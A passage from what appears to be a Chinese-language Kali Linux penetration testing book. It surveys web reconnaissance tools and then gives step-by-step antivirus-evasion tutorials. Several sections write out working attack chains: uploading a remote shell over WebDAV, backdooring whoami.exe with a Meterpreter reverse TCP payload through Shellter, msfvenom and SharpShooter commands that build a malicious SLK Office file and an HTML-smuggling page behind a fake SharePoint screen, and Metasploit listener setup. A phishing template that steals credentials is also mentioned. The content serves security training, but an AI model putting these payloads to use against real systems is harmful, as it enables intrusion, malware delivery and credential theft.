这只是对 Bettercap 的简要概述。它还有许多功能和能力。例如，如果你有正确的硬件，就可以进行 BLE 遍历和攻击（[https://www.bettercap.org/modules/ble/]）。你还可以使用 Bastille 的“MouseJack”HID 攻击，对许多易受攻击的键盘和鼠标进行 duckscript 注入。尽管如此，你仍然需要执行此类类型的攻击所需的特定硬件（和固件）（[https://www.bettercap.org/modules/hid/]）。如果你有正确的串行 GPS 硬件，它还可以在移动攻击期间提供 GPS 信息（[https://www.bettercap.org/modules/utils/gps/]）。最后但同样重要的是，Bettercap 是广受欢迎的“Pwnagototchis!”背后的工具——那种令人无法抗拒的 AI 驱动树莓派 WiFi 攻击设备。


Bettercap 是一个非常有用的工具。多年来，它已经非常成熟并进化，包含了新的功能。我个人在扫描 WiFi 时经常使用 Bettercap。它是实现该目的的最优秀工具之一。

## 资源与参考文献

> ➢ Bettercap 网站 - [`www.bettercap.org/`](https://www.bettercap.org/)

> ➢ Bettercap GitHub - [`github.com/bettercap/bettercap`](https://github.com/bettercap/bettercap)

> ➢ Pwnagotchi: 用于 WiFi 夺取的深度强化学习 - [`pwnagotchi.ai/`](https://pwnagotchi.ai/)

# 第 21 章

## Web 应用工具

我们只涵盖了 Kali 自带的 Web 应用测试工具的一小部分。在本节中，我们将快速查看 Kali 中预装的另外几个工具。每个人都有自己自己喜用的工具，希望你在这里能发现一个你以前不知道它存在的工具，或者不知道它已经包含在 Kali 中的工具。我将在这里只介绍基本用法；将学习更多关于它们及其应用交由你们。这对于新用户来说应该非常有信息量，并希望向向更高级的用户展示已经存在哪些工具——可能避免他们为特定功能编写自己的代码。

每个项目都将列出简要概述、工具网站（如果已知）以及简要说明和基本功能。如果没有特别提到，示例中使用的目标是 Metasploitable2 VM。这一章最初来自我的中级书籍，长度约为 50 页。自那时许多工具已经过时，多个工具的功能合并到了几个新工具中。一如既往，尝试所有工具并看看什么最符合你的需求。

### Amass

**概述：** 攻击面映射器和资产发现

**工具作者：** OWASP

**工具 GitHub：** [`github.com/OWASP/Amass`](https://github.com/OWASP/Amass)

**工具 Wiki：** [`github.com/OWASP/Amass/blob/master/doc/user_guide.md`](https://github.com/OWASP/Amass/blob/master/doc/user_guide.md)

**工具教程：** [`github.com/OWASP/Amass/blob/master/doc/tutorial.md`](https://github.com/OWASP/Amass/blob/master/doc/tutorial.md)


OWASP Amass 深度攻击面映射和资产发现是渗透测试人员和漏洞赏金猎人常用的常用的侦察工具之一。它可以利用开源服务进行信息收集，执行主动和被动信息收集技术，并适用于映射攻击面和资产发现。它甚至有一个可视化模式，你可以在实时图表模式下查看数据。尽管如此，与其他一些多功能扫描工具一样，它的威力在于工具的 API 使用。你注册并提供注册密钥的 API 越多，Amass 返回给你的数据就越多。

Amass 有六个核心“子命令”模块——`intel`、`enum`、`viz`、`track`、`db` 和 `dns`。Amass 工具的用户指南和教程网站上有详尽的文档，因此这只是一个快速使用指南。工具的帮助命令也非常有用。

> ➢ 在终端中，输入 `amass --help`

列出六个子命令：


你也可以在每个子命令上使用帮助开关。

> ➢ `amass intel --help`

列出关于 intel 命令的信息：


如所述，只有当你注册并使用可用的 API 服务时，Amass 的威力才能被完全利用这些这些允许 Amass 从许多不同的在线服务中提取数据，从而让你获得目标的更完整的视图。

你可以通过使用 enum 命令查看可用的 API 服务。

> ➢ `amass enum --list`


一旦注册了 API 服务，你就可以将密钥添加到 Amass 中。

### Amass - 被动侦察

被动侦察允许你扫描关于目标的信息，而无需接触目标。

> ➢ `amass enum -passive -d owasp.org -src`


这将在不访问目标网站的情况下返回许多子域名。也可以使用 enum 命令进行主动和暴力破解方法。在继续之前，请务确保你有权限对目标进行主动扫描。

Amass 的 `viz` 命令对于创建目标的视觉化映射很有用。


更多信息请查看工具网站和文档。

### CADAVER

**概述：** Cadaver 是一个 WebDAV 客户端

**工具网站：** [`www.webdav.org/cadaver/`](http://www.webdav.org/cadaver/)

Cadaver 是 Linux 的 WebDAV（Web 分布式授权和版本控制）客户端。WebDAV 允许开发者与网站交互，“即时”修改它。如果 WebDAV 网站没有妥善保护，我们可以修改网站或上传反向 shell。

使用 Cadaver 的第一步是发现漏洞的 WebDAV 安装。你可以进行手动测试（`curl`），Kali 也有几个可以使用工具。Metasploit 有几个扫描模块，包括 `auxiliary/scanner/http/webdav_scanner` 和 `auxiliary/scanner/http/http_put`。但最快的方法之一是直接使用内置的 `davtest` 工具。

如下：

> ➢ `davtest -url [Target_URL]`


如上图所示，测试成功了。现在我们知道有一个有漏洞的目标，只需要上传我们的 shell。Cadaver 让这变得极其简单：

> ➢ `cadaver [Target_URL]`

> ➢ `put [remote_shell_name]`


这样，我们的远程 shell 现在可以直接在目标网站上访问。网上有很多关于使用 Cadaver 的分步教程。资源部分链接了几个教程。

### Dirb

**概述：** Dirb 是一个返回隐藏和非隐藏 对象的扫描器

**工具作者：** The Dark Raver

**工具网站：** [`dirb.sourceforge.net/`](http://dirb.sourceforge.net/)


Dirb 是一个寻找现有和隐藏网站 URL 的扫描器。发现这些内容对渗透测试很有帮助。Dirb 通过使用字典来查找网站对象。

快速扫描：

> ➢ 输入 `dirb [target IP Address]`


使用内置 Apache 字典扫描：

这会使用一个更精确的列表对网站进行 URL 名称扫描。

> ➢ `dirb http://[Metasploitable IP Address] /usr/share/dirb/wordlists/vulns/apache.txt`


额外的字典位于 `/usr/share/dirb/wordlists/` 目录可用。

### DirBuster

**概述：** DirBuster 是一个图形界面 Web 目录/文件扫描器

**工具作者：** OWASP

**工具网站：** [`www.owasp.org/index.php/Category:OWASP_DirBuster_Project`](https://www.owasp.org/index.php/Category:OWASP_DirBuster_Project)


DirBuster 是一个目录/文件扫描器，类似于 Dirb，它通过使用字典工作。DirBuster 是一个旧工具，在很大程度上已被 OWASP ZAP 取代，但仍仍有人在使用它。DirBuster 通过图形界面运行，你可以在终端中输入 `dirbuster` 来启动它。


要使用 `DirBuster`，只需输入目标 URL，选择一个词列表（位于 `/usr/share/dirbuster/wordlists`），选择你需要的任何其他选项，增加线程数以提高性能，然后点击“start”：


运行结果如下：


完成后，系统会提供选项将结果保存到报告文件中：

> DirBuster 1.0-RC1 - Report

> http://www.owasp.org/index.php/Category:OWASP_DirBuster_Project

> Report produced on Thu Jun 04 21:24:03 EDT 2015

> --------------------------------

> http://192.168.1.68:80

> --------------------------------

> 测试期间发现的目录：
> 具有 200 响应的发现目录：
> /
> /twiki/
> /phpMyAdmin/
> /mutillidae/
> /dav/
> /icons/
> /twiki/bin/view/
> /twiki/bin/view/Main/
> ------ Truncated ------

## DumpsterDiver

概述：搜索数据中的密钥密钥

工具作者：@Rzepsky

工具 GitHub：[`github.com/securing/DumpsterDiver`](https://github.com/securing/DumpsterDiver)

Kali 2021 版本中的新工具。它可以发现并报告任何潜在的密钥泄露，这对攻击和防御团队都有益。DumpsterDiver 能够在大量数据中搜索密码、SSH 及云访问密钥等秘密信息。

> ➢ `sudo apt install dumpsterdiver`

> ➢ `DumpsterDiver -p [folder]`


`DumpsterDiver` 会遍历目标、日志和压缩包以寻找潜在的密钥。它会报告发现的任何内容。如上图所示，扫描期间检测到了潜在的云访问密钥。可以使用高级选项来创建搜索条件。更多信息请查看该工具的 GitHub 页面。

## GitLeaks

概述：GitHub 仓库扫描器

工具作者：Zachary Rice

工具 GitHub：[`github.com/zricethezav/gitleaks`](https://github.com/zricethezav/gitleaks)

一种静态应用安全测试 (SAST) 工具。这不是一个新工具，但在 Kali 2021 中是新的。`GitLeaks` 允许你扫描 GitHub 仓库和本地仓库中的密钥，包括密码、API 密钥和令牌。2021 年，印度政府服务器因 Git 仓库配置不当被黑客入侵。这证明了运行仓库安全扫描的重要性。


基础在线仓库扫描：

> ➢ `gitleaks --repo-url=https://github.com/[target_account] --verbose`

如果你使用 verbose 命令，它将实际上列出所有潜在的数据泄露。

## HTTrack

概述：网站复制器与离线浏览器工具

工具作者：Xavier Roche 及其他贡献者

工具网站：[`www.httrack.com/`](https://www.httrack.com/)


`HTTrack` 允许你下载网站的完整副本，包括所有链接和图形。该工具具有广泛的功能，更多信息请查看帮助文件和工具网站。

基础用法：

> ➢ `httrack [Target Website] --mirror-wizard`


上述命令会将目标网站复制到当前目录。它在向导模式下运行，因此会向你提示有关想要遍历多深等问题。你可以直接不带任何选项地运行 `HTTrack`，它将引导你创建一个下载项目。完成后，你可以在网络浏览器中打开索引文件，你将看到该站的本地副本（不包括数据库、某些脚本等）：


如果你想为渗透测试运行钓鱼攻击，可以使用此工具镜像网站，然后从 Kali 的 Apache 服务器甚至从 Python Simple HTTP 服务器运行它。

## King Phisher

概述：钓鱼攻击活动工具包

工具 GitHub：[`github.com/rsmusllp/king-phisher`](https://github.com/rsmusllp/king-phisher)

工具 Wiki：[`github.com/rsmusllp/king-phisher/wiki`](https://github.com/rsmusllp/king-phisher/wiki)

`King Phisher` 是 Kali Linux 包含的另一个钓鱼活动框架工具。我们在书中之前介绍过 GoPhish。两者都是提高公司安全意识的绝佳工具。我的建议是检查两者，看看哪一个最适合你的需求。

> ➢ `sudo service ssh start`

> ➢ `cd /usr/share/king-phisher`

> ➢ `sudo ./KingPhisherServer server_config.yml`

> ➢ 打开另一个终端并输入 `././KingPhisher”

> ➢ 使用 SSH 登录界面登录


从仪表板中，选择“New Campaign”（新活动）：


现在只需按照新活动向导操作来设置你的钓鱼活动。


这里真正需要的是活动名称。点击“Next”或“Back”在不同主题间移动，完成后点击“Finish”。

现在我们需要设置 SMTP 服务器

> ➢ 点击“Edit”（编辑）

> ➢ 然后点击“Preferences”（偏好）

输入你的 SMTP 服务器地址和用户名——这是你将用于发送电子邮件的帐户。在你启动活动时，它会提示你输入邮箱密码。


### King Phisher - 创建落地页 (Landing Pages)

工具 Wiki：[`github.com/rsmusllp/king-phisher/wiki/Creating-Server-Content#configuring-landing-pages`](https://github.com/rsmusllp/king-phisher/wiki/Creating-Server-Content#configuring-landing-pages)

你需要手动创建落地页并将它们存储在 king-phisher 的 www 根目录下。通常为 `/var/lib/king-phisher/www`，请检查 `server_config.yml` 文件获取位置或进行修改。

预先的邮件模板和落地页可以在此处找到：

[`github.com/rsmusllp/king-phisher-templates/tree/master/Website_Templates`](https://github.com/rsmusllp/king-phisher-templates/tree/master/Website_Templates)

有一些非常好的模板，找一个适合你任务的，或者你也可以自己制作，或克隆现有网站。`Website_Templares/Shell/Anti-Virus_Update` 是一个很有有趣的，因为它能获取凭据并投送载荷。

只需从下载压缩包的地方复制 www 文件：


到 `/var/lib/king-phisher/www` 文件夹：


然后你就一切搞定了！


查看工具 Wiki 获取更多信息。

## Legion

概述：半自动渗透测试工具

工具网站：https://govanguard.com/legion/

工具 GitHub：https://github.com/GoVanguard/legion/

`Legion` 是 SECFORCE Sparta 工具的分支，是一个非常易用的半自动渗透测试工具，可对目标系统进行发现、侦察和利用。它包含在 Kali 中，可以从菜单或命令行运行。

> ➢ `sudo legion`

> ➢ 点击“Hosts”框或绿色加号来添加目标

> ➢ 点击“Submit”，Legion 将开始自动化测试


`Legion` 使用许多工具来侦察和分析目标。它执行多层 `nmap` 扫描以寻找服务，并获取运行服务的截图。它甚至使用 `Hydra` 执行基础的词列表攻击。

如下所示：


最后，默认目标扫描会列出发现的漏洞 CVE（带有链接）。


## Lynis

概述：审计、系统加固、合规测试工具

工具作者：CISOFY

工具网站：[`cisofy.com/lynis/`](https://cisofy.com/lynis/)

`Lynis` 是一个快速且易用的服务器安全审计工具。`Lynis` 几年前默认安装在 Kali 中，但现在仍在仓库中。用于对基于 Unix 的系统（Linux, MacOS, BSD 等）进行审计。适用于渗透测试、取证和审计。

基础用法：

> ➢ `sudo lynis audit system`


可以使用 `remote [host]` 参数测试远程系统。


Nikto 是安全领域使用的经典老工具之一。它是许多安全测试人员在扫描目标时首选的首批工具之一。Nikto 是一个开源 Web 服务器扫描器，用于搜索危险/过时的程序和配置错误。虽然它不一定隐蔽，但速度非常快。


### 基础用法：

> ➢ 输入，`nikto -host [http://IP Address]`：


Nikto 还可以完成许多操作，请查看用户手册：[`cirt.net/nikto2-docs/`](https://cirt.net/nikto2-docs/)

## Nuclei

工具网站：[`nuclei.projectdiscovery.io/`](https://nuclei.projectdiscovery.io/)

工具 GitHub：[`github.com/projectdiscovery/nuclei`](https://github.com/projectdiscovery/nuclei)

Nuclei 是一个快速的侦察工具，可以快速方便地检查许多安全问题（如 CVE 和安全配置错误）和其他信息。

### 安装说明

有多种方法，请参阅：[`github.com/projectdiscovery/nuclei`](https://github.com/projectdiscovery/nuclei)

#### 通过二进制文件安装：

> ➢ 从 ‘https://github.com/projectdiscovery/nuclei/releases’ 下载最新二进制文件

> ➢ `tar -xzvf nuclei-linux-amd64.tar.gz`

> ➢ `sudo mv nuclei /usr/local/bin/`

> ➢ `nuclei -version`

> ➢ `nuclei -update-templates`

Nuclei 的强大之处在于它可以使用模板进行扫描。Nuclei 目前拥有超过 400 个模板（`yaml` 文件），可用于扫描目标网络。


### 示例：

> ➢ `nuclei -target http://172.24.1.233 -t files -o results.txt`

> ➢ `nuclei -target http://172.24.1.233 -t cves -o results.txt`

> ➢ `nuclei -target http://172.24.1.233 -t vulnerabilities -o results.txt`

上述命令展示了使用不同模板文件的多次扫描。


你也可以同时使用多个模板文件：

> ➢ `nuclei -target http://172.24.1.233 -t files/ -t cves/ -o results.txt`

模板代码位于：

> [`github.com/projectdiscovery/nuclei-templates`](https://github.com/projectdiscovery/nuclei-templates)

更多搜索选项以及关于如何在 Docker 容器中使用 Nuclei 的说明可以在此处找到：

> [`github.com/projectdiscovery/nuclei`](https://github.com/projectdiscovery/nuclei)

## Skipfish

概览：Web 应用安全侦察工具

工具作者：Google Inc, Michał Zalewski

工具网站：[`code.google.com/p/skipfish/`](https://code.google.com/p/skipfish/)


Skipfish 是一个网站侦察工具和安全扫描器，它可以扫描网站并生成一个包含交互式站点地图的报告。

### 基础用法：

> ➢ 输入，`skipfish -o skipfishdata http://[IP Address]`


扫描完成后，Skipfish 会在选定的输出目录中创建一个完整的 HTML 安全报告。要查看报告，只需打开浏览器并查看输出目录中的 `index.html` 文件即可。


更多信息请参阅工具 Wiki ([`code.google.com/p/skipfish/wiki/SkipfishDoc`](https://code.google.com/p/skipfish/wiki/SkipfishDoc))，特别是关于创建字典网站以提高 Skipfish 扫描效率的内容。

## SSLze

概览：快速 SSL 配置分析器

工具维护者：Nabla-c0d3

工具网站：[`github.com/nabla-c0d3/sslyze`](https://github.com/nabla-c0d3/sslyze)

SSLyze 运行大量的 SSL 扫描和测试，包括检查 Heartbleed 漏洞，并返回关于 SSL 版本和证书信息的详细信息。

### 基础用法：

> ➢ `sslyze --regular [Target_Website]`


SSLyze 是许多安全测试人员快速检查 SSL 问题的首选工具之一。

## Wapiti

概览：Web 应用漏洞扫描器

工具网站：[`wapiti.sourceforge.io/`](https://wapiti.sourceforge.io/)


Wapiti 是基于 Python 的“黑盒”Web 应用漏洞扫描器。Wapiti 扫描目标网站的脚本和表单，然后测试它们是否存在漏洞。

### 基础扫描 -耗时非常长：

> ➢ `Wapiti -u http://[target_address]`


Wapiti 在扫描时会显示一些漏洞：


如所述，全量扫描可能需要很长时间。你可以按 `ctrl-c` 暂停扫描，并使用选项跳过当前测试移动到下一个测试，或者直接停止测试并根据获取的数据生成报告。

完成后，报告存储在 `/home/kali/.wapiti/` 中，如下所示：


每个扫描目标都会创建一个 HTML 报告，可以在 `generated_report` 文件夹中找到。只需点击任何目标 HTML 文件即可在浏览器中查看它们。


点击任何类别超链接可获取有关发现漏洞的扩展信息。

## WhatWeb

概览：网站识别扫描器

工具作者：Andrew Horton and Brendan Coles

工具网站：[`www.morningstarsecurity.com/research/whatweb`](http://www.morningstarsecurity.com/research/whatweb)


WhatWeb 是一个非常快速网站识别扫描器，用于回答“那个网站是什么？”。根据工具网站介绍，它包含超过 1700 个插件，可以识别从版本号到 SQL 错误的各种服务。

### 基础用法：

> ➢ 输入，`whatweb [http://Target Website]`

> ➢ 或者输入，`whatweb -v [http://Target Website]` 获取详细输出


## WPScan

概览：WordPress 站点漏洞扫描器

工具作者：WPScan Team (@ethicalhack3, @erwan_lr, @firefart)

工具 GitHub：[`github.com/wpssec/wpscan`](https://github.com/wpssec/wpscan)


如果你的组织安装了 WordPress，那么 WPScan 就是你要使用的工具。它运行快速且高效。

### 基础用法：

> ➢ `wpscan --url [Target Website]`

该工具随后扫描常见的 Wordpress 漏洞。我在其他书中更深入地介绍了这个工具。请查看帮助屏幕获取完整说明和示例。

## Web 应用工具总结

在这一部分，我们介绍了 Kali 自带的许多 Web 应用安全工具并展示了它们的各种用法。希望你看到了一些以前没见过的新工具，希望它们将成为你个人安全工具箱的良好补充。这些只是 Web 应用安全的一些基本技术和工具。说实话，精通此道的唯一方法就是通过自实践。


在计划安全测试时，请始终记住你的目标。对于一个除了电子邮件外没有任何网络呈现的小型公司客户，需要通过社会工程学、网络钓鱼、Wi-Fi 以及可能的物理入侵尝试进行攻击。实体越大，通常入侵尝试的机会就越多。大公司可能有更多面向公众的在线设备。要跳出框架思考。多年来，我见过了完全开放的安全系统、建筑控制系统、IP 视频和音频系统。随着将万物上线（物联网）的热潮以全速火力持续，这种情况只会增加。例如，我甚至见过大型的连接互联网的办公室鱼缸控制系统完全向外部世界开放。由于每个在线设备中基本上都有一个 `Linux` 服务器，这种机会几乎是无限的。

最后，如果你计划专业地进行渗透测试，请务必确保你的入侵尝试范围（哪些是允许的，哪些是禁区）在你的书面合同中明确说明，并与客户进行口头解释并达成一致。此外，许多工具都有“专业版”或“企业版”付费许可版本，拥有更多的功能和能力。

## 资源与参考文献

- ➢ ¹ “研究人员通过暴露的 git 和 env 文件黑入印度政府网站”，Ax Sharma，2021 年 3 月 12 日 - [`www.bleepingcomputer.com/news/security/researchers-hacked-indian-govt-sites-via-exposed-git-and-env-files/`](https://www.bleepingcomputer.com/news/security/researchers-hacked-indian-govt-sites-via-exposed-git-and-env-files/)
- ➢ 什么是 WebDAV？ - [`www.cloudwards.net/what-is-webdav/`](https://www.cloudwards.net/what-is-webdav/)
- ➢ 在服务器上利用 WebDAV 并获取 Shell - [`null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/`](https://null-byte.wonderhowto.com/how-to/exploit-webdav-server-get-shell-0204718/)
- ➢ 使用 Metasploitable3 学习渗透测试：（利用 WebDAV） - [`resources.infosecinstitute.com/topic/learning-pentesting-metasploitable3-exploiting-webdav/`](https://resources.infosecinstitute.com/topic/learning-pentesting-metasploitable3-exploiting-webdav/)
- ➢ 如何使用 OWASP Amass：详尽教程，2020 年 1 月 24 日，Nick Gkogkos， [`www.dionach.com/en-us/blog/how-to-use-owasp-amass-an-extensive-tutorial/`](https://www.dionach.com/en-us/blog/how-to-use-owasp-amass-an-extensive-tutorial/)

# 第五部分 - 绕过反病毒与 Shellcode

### 第 22 章

## 使用 Shellter 绕过反病毒

创建 shellcode 的主要问题是，你能否让它通过目标的防御？这通常归结为绕过反病毒。许多反病毒检测器是基于特征或行为的 - 它会在恶意文件中寻找特定的字符串、模式或行为。尽管 `AV` 多年来已变得更加智能，但仍有机会检测是基于程序字符串、进程、变量或值的。如果你能更改它，就可能绕过 `AV`。另一个选项是混淆你的 shellcode 以试图隐藏其真实身份。最后，大多数顶尖渗透团队和红队会直接编写自己的利用程序来绕过 `AV`。

微软在 `Windows Defender` 方面实际上做得相当不错。他们的安全团队似乎掌握了许多顶级安全工具，并且似乎在新工具发布后几小时内就会为 `Defender` 添加更新的定义。例如，在大约年前，我正在尝试由 TrustedSec 的 Dave Kennedy 开发的最新“Magic Unicorn” shellcode 工具 ([`github.com/trustedsec/unicorn`](https://github.com/trustedsec/unicorn))。它的效果非常好！但第二天情况就不同了，微软已经更新了 `Defender` 来捕获它。

尽管，使用自定义程序绕过 `AV` 仍然相当容易。社区中 `C#` 和 `Go` 语言编写的 Shell 大幅增加。我与一位渗透测试朋友聊天时，问她是使用 `AV Bypass` 工具还是自己编写，她立即回答道：“我自己写，自动化工具太让人困惑”。自定义工具效果非常好，因为现代应用程序需要能够在网络进行通信。专业安全编码人员利用这一事实，制作出模拟这些能力的 Shell。不过，`AV` 防御社区并没有放弃，防御威胁和绕过 `AV` 的猫鼠游戏仍在继续。

用于查找 `AV` 正在检测文件中哪些内容的常用技术是将文件拆分成部分。然后你取文件的每个部分并通过 `AV scanner` 运行它们。然后使用十六进制编辑器分析被检测为恶性的分部分。如前所述，有时检测到的只是一个文本字符串、进程、变量或值。更改被检测到的代码，你就可以大功告成了。这需要一定的编程知识，这超出了本书的范围，因此我将留给读者自行探索。

## 自动化 AV 绕过工具

让我们从使用“Shellter”来规避 `AV` 开始本章。`Shellter` 的原理是取一个合法的 Windows `.exe` 文件，并将 shellcode 添加其中。它在修改文件以实现 `AV bypass` 方面表现出色。原始的 Windows `.exe` 文件将不再运行，因为这是为渗透人员而非黑客准备的工具，但生成的 shell 效果非常好。在本节中，我们将使用 Windows 2019 服务器虚拟机作为目标，并将使用 `Shellter` 的自动模式，这使得整个过程非常轻松。

好了，话不多说，让我们来看看实际操作吧！

## Shellter

工具作者：Kyriakos Economou

工具网站：[`www.shellterproject.com/`](https://www.shellterproject.com/)

`Shellter` 位于 Kali 仓库中，每天检查更新，但默认不安装。因此，我们需要安装它。

安装方法：

- ➢ 在终端中，输入 `sudo apt install shellter`


- ➢ 然后按照额外的说明说明安装 Win32
- ➢ 最后使用 `sudo shellter` 运行程序

或者

- ➢ 从工具网站下载
- ➢ 解压缩并移动到 `/usr/share/Shellter` 目录
- ➢ `sudo apt install wine32`
- ➢ `sudo wine shellter`

我们需要一个 Windows 32 位程序作为宿主程序。Kali 的 `usr/share/windows-binaries` 中有几个。


在本教程中，我们将使用 `whoami.exe` 命令，并使用 `wine` 命令运行 `shellter`。

- ➢ 将 `whoami.exe` 拷贝到 Shellter 目录 (`/usr/share/shellter`)
- ➢ 到 `/usr/share/shellter` 目录
- ➢ 输入 `sudo wine shellter`


我们这里的选项有“Auto”（自动）、“Manual”（手动）或“Help”（帮助）

- ➢ 选择 `A` 进行自动
- ➢ 在 PE Target Prompt 处输入 `whoami.exe`

它需要几秒钟处理文件。

- ➢ 在提示隐身模式时按 `n`
- ➢ 在提示 Payloads 时选择 `L` 然后选择 `1` 用于 `Meterpreter_Reverse_TCP`：


- ➢ 接下来你的 Kali 系统的 IP 地址
- ➢ 然后输入要使用的端口号（我使用了 5555）


`Shellter` 将混淆代码并运行一会儿。然后你应该会看到：


成功！按 `Enter` 退出 `shellter`。我们现在在 Shellter 目录下有一个新的 `whoami.exe` 命令。原始文件已移动到备份文件夹。

现在我们需要在 Kali 系统上使用 Metasploit 启动监听服务。

- ➢ 启动 Metasploit（在终端输入 `msfconsole` 或从 Kali 菜单启动）


现在输入：

- ➢ `use exploit/multi/handler`
- ➢ `set payload windows/meterpreter/reverse_tcp`
- ➢ `set LHOST [Kali_IP_Address]`
- ➢ `set LPORT 5555`
- ➢ `run`


现在 Kali 正在等待连接。我们将 `whoami.exe` shellcode 文件拷贝到 Windows Server 2019 系统并运行它：


我们获得了一个 shell！


你可以在这里运行任何 Metasploit 命令，或者输入 `help` 查看可用命令。输入 `getuid` 告诉我们我们是域管理员（Domain Admin），我们可以运行 `shell` 命令跳转到远程命令提示符。


你可以输入 `exit` 退出 DOS 壳，再次输入 `exit` 退出 meterpreter 壳，再输入一次 `exit` 即可退出 Metasploit。在编写本文时，这种方法在自动模式下对已安装全量补丁并更新的 Windows 10 系统是有效的：


如果你比较后门化的 `exe` 文件与原始文件的大小，你会发现它们的大小完全相同。每当你运行 `Shellter` 时，你都会得到一个稍微不同的文件，因为在混淆过程中插入了随机代码。

## PyFuscation

工具作者：`CBHue`

工具 GitHub：[`github.com/CBHue/PyFuscation`](https://github.com/CBHue/PyFuscation)

在离开本章之前，我想提到另一个工具 - `PyFuscation`。我之前提到过，尝试绕过杀毒（AV）的一种技术是更改函数名。`PyFuscation` 就是实现此点的工具之一，此外更多。它能够混淆 PowerShell 函数、变量和参数。

安装非常简单：

> ➢ `git clone https://github.com/CBHue/PyFuscation.git`

然后使用所需的混淆开关（我建议全部使用）`-fvp` 运行程序。

> ➢ `python3 PyFuscation.py -fvp --ps ./Your_Remote_Shell.ps1`

我对它的结果参差不齐。我尝试过的任何流行的远程 shell 在通过 `PyFuscation` 运行后仍然被检测到。尽管尝试一下总是无害的

## 结论

在这个简短的章节中，我们看到了使用 `Shellter` 创建反向 shell 是多简单。我们还看到反病毒软件并不总是能捕获恶意文件。反病毒虽然很棒，但它无法阻止一切，你需要训练公司用户在使用互联网网站、社交媒体和电子邮件时保持警惕。避免可疑网站，不要允许网站弹出窗口或警告安装任何东西，永远不要打开邮件中未经请求或可疑的附件。作为网络管理员，永远不要允许员工在日常中使用特权账户。用户的一点警惕对保护你的网络大有用！

# 第 23 章

## SharpShooter 与 Veil 框架


### SharpShooter

工具 Github：[`github.com/mdsecactivebreach/SharpShooter`](https://github.com/mdsecactivebreach/SharpShooter)

`SharpShooter` 是一个用于 `CSharp` 代码的载荷创建框架。它的多个功能包括基础 AV 绕过加密、阶段（staged）和无阶段（stageless）执行、AMSI 绕过能力以及沙箱检测。Sharhooter 有多种输出格式，包括 JavaScript、HTA 和 VBS。在最简单的用法，你获取使用 `MSFvenom` 创建的载荷并将其输入 `SharpShooter`。`SharpShooter` 处理载荷并创建一个具有中等 AV 绕过能力的输出文件。

`SharpShooter` 是一个非常有用的工具，有很多选项。你可以只创建一个载荷。你可以创建一个载荷和一个 HTML “加载”页面。你可以使用不同的 `.NET` 版本（`2` 或 `4`）。`SharpShooter` 还具有 5 种不同的反沙箱技术（例如：检查沙箱产物、已知 MAC 地址等）。它甚至可以使用模板文件来针对特定的杀毒引擎。这些选项在工具文档中记录得非常详尽，所以让我们来看一些用法示例。

### 安装

> ➢ `git clone [`github.com/mdsecactivebreach/SharpShooter`](https://github.com/mdsecactivebreach/SharpShooter)`

> ➢ `pip3 install -r requirements.txt`

### 修复 SharpShooter 问题

在编写本文时，有几个问题阻止 `SharpShooter` 运行。这些问题可能已经被修复。先尝试运行程序，如果你遇到这些错误，请参考以下内容：

1. > 修复 `jsmin` 错误 (rebootcuong, [`github.com/mdsecactivebreach/SharpShooter/issues/23`](https://github.com/mdsecactivebreach/SharpShooter/issues/23))。

> ➢ `apt install -y python-setuptools`

> ➢ `cd /tmp`

> ➢ `git clone https://github.com/tikitu/jsmin/`

> ➢ `cd jsmin`

> ➢ `python2 setup.py install`

2. > 修复 “IndentationError: expected an indented block”错误。

你必须手动修复缩进，列表列在：[`github.com/mdsecactivebreach/SharpShooter/pull/31/files#diff-2f890f308235b111064433c727e94b48b354019f50198564410938068d1c972c`](https://github.com/mdsecactivebreach/SharpShooter/pull/31/files#diff-2f890f308235b111064433c727e94b48b354019f50198564410938068d1c972c)

只需复制文件，删除错误的行（标记为红色），复制正确的行（绿色）。你现在应该可以运行 `SharpShooter` 了。最后，我在让 `dotnet 4` 的阶段性载荷工作方面结果参不齐，所以我们将只看几个无阶段的。

### 运行 SharpShooter


我们需要传递给 `SharpShooter` 的 shellcode，这将使用 `MSFvenom` 创建。该过程在工具作者的博客¹中涵盖得非常好，所以这里只是快速演示创建几个不同的载荷。

#### 使用 SharpShooter 和 SLK 文件创建 Office 载荷

使用 `.slk` 文件的恶意 Office 附件去年引起了新闻。`.slk` 文件是一种旧的 Excel 文件格式。黑客发现了如何将该文件转换为恶意附件，从而绕过微软的高级威胁防护（Advanced Threat Protection）。这种带有陷阱的文件被用于黑客的电子邮件活动。因此这非常值得一看。

这是一个三个步骤的过程：

* 使用 `Msfvenom` 创建载荷
* 使用 `SharpShooter` 加密并转换载荷
* 使用 `Metasploit Multi-Handler` 服务捕获 shell

让我们开始吧！

1. 首先，我们创建载荷。

> ➢ `msfvenom -p windows/meterpreter/reverse_http LHOST=[Kali_IP] LPORT=5555 -f raw -b '\x00' -e x86/shikata_nai -i 3 -o cutuppies.txt`


标准的 `msfvenom` shell。我决定使用三次 `shikata_nai` 编码。对于 `Sharpshooter`我们需要确保没有空字节，这些通过 `-b '\x00'` 关排除。

2. 接下来，将在 `SharpShooter` 中使用 `Msfvenom` 载荷。

> ➢ `./SharpShooter.py --payload slk --rawscfile cutuppies.txt --output cutuppies`


3. 启动 Handler 来捕获 shell。

> ➢ 启动 Metasploit - `msfconsole`

> ➢ `use multi/handler`

> ➢ `set payload windows/meterpreter/reverse_http`

> ➢ `set LHOST 172.24.1.146`

> ➢ `set LPORT 5555`

> ➢ `exploit`


现在只需将 `cutuppies.slk` 文件从 `SharpShooter` 输出目录复制到目标 Windows 10 系统。


使用 Excel 打开文件：


我们得到了 shell！


我们显然需要将文件上传到目标，或在钓鱼邮件中发送它。能够托管文件并通过网络浏览器交付将是很好的。通过 `SharpShooter` 网络交付，我们可以做到！

### SharpShooter 网络交付

`SharpShooter` 还可以使用一些模板生成 HTML 代码的能力。这些模板创建一个包含 `SharpShooter` 漏洞代码的网页。它们还创建一个伪造的 McAfee “已扫描并安全”屏幕或 SharePoint 服务器屏幕。我们将使用与上一个示例相同的 `Metasploit` Shellcode，`cutuppies.txt`。

我们要做的是创建 `SharpShooter` 载荷。

1. > 创建 SharpShooter 网络交付载荷：

`./SharpShooter.py --stageless --payload vbs --output test --rawscfile cutuppies.txt --smuggle --template sharepoint --com outlook --awlurl http://172.24.1.146/test.xsl --dotnetver 4`


当运行 SharpShooter 命令时，输出文件夹中会创建三个文件：HTML 落地页（这将触发文件下载）、一个 `.vbs` 文件和一个 `.xsl` 文件。创建的 `.vbs` 文件基本上使用 `WScript` 来运行 `WMIC` 命令，该命令读取并执行来自 `.xls` 文件的负载。

如下所示：


> *注意：关于攻击样式及其代码的更多信息，请参阅参考部分工具作者的帖子。*

